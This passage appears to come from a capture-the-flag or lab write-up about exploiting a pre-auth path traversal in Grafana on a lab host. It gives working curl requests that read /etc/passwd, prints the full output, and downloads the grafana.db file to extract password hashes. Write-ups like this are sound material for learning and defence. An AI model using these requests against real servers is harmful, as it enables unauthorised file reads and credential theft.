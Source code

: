 After a bit of research, we find that there is a pre-auth path traversal vulnerability in Grafana that allows arbitrary file read.

```console
$ curl --path-as-is http://data.vl:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```

There are a number of interesting files we can grab here, one is the Grafana database file, `grafana.db`. 

```console
$ curl --path-as-is http://data.vl:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

Looking through that database file, we find some hashes. 

![](../images/screenshots/Pasted%20image%2020240630143459.png)
